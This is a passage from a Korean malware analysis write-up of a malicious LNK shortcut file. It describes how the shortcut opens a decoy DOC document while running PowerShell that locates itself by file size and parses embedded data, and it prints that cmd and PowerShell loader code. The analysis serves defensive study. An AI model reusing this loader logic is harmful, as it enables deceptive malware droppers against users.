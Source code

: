 때문에 LNK 파일을 실행한 뒤, procmon을 확인하면 다음과 같이 어떤 cmd 명령어가 실행되었는지 확인할 수 있습니다.

<img src="../images/2024-12-07-LNK-Malware-Analysis/IMG-lnk 분석-20241104173915337-1733644081743-13.png" alt="IMG-lnk 분석-20241104173915337" style="zoom:67%;" />

확인된 cmd 명령어를 분석해보면, powershell 스크립트를 실행하여 아래와 같은 파일 내부에 숨겨진 위장용 정상 DOC 문서를 오픈하는 행위를 통해 사용자가 정상 파일을 실행했다고 착각하게 유도합니다. 하지만 실제 행위는 LNK 파일 내부에 존재하는 데이터를 사용하여 악성 행위를 수행합니다.

![IMG-lnk 분석-20241104174044065](../images/2024-12-07-LNK-Malware-Analysis/IMG-lnk 분석-20241104174044065-1733644090442-15.png)



### ▪ <u>powershell 스크립트 분석</u>

promon에서 LNK 파일 오픈 시, 실행되는 powershell 코드를 확인할 수 있습니다. 파일 데이터를 파싱하여 위장용 정상 DOC 문서를 오픈하고 악성 행위 수행에 필요한 파일들을 생성합니다.

![IMG-lnk 분석-20241208165231069](../images/2024-12-07-LNK-Malware-Analysis/IMG-lnk 분석-20241208165231069.png)



#### 1. powershell.exe를 검색하여 실행하는 코드

```powershell
# powershell 폴더에서 powershell을 실행하기 위한 코드
"C:\Windows\SysWOW64\cmd.exe" /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a
```



#### 2. lnk 파일 식별 후, 파일 객체 생성

```powershell
# $dirPath = Get-Location 현재 디렉토리를 변수로 저장
$dirPath = Get-Location;

# 만약 $dirPath가 System32거나 Program Files면 $dirPath를 C:\Users\user\AppData\Local\Temp로 업데이트
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\user\AppData\Local\Temp'};

# *.lnk로된 파일 중 크기가 0x0325E0BC인 파일을 찾아 FullName을 $lnkPath로 설정
$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0325E0BC} | Select-Object -ExpandProperty FullName;

# $lnkPath를 열어 $lnkFile로 새 객체 생성
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
```
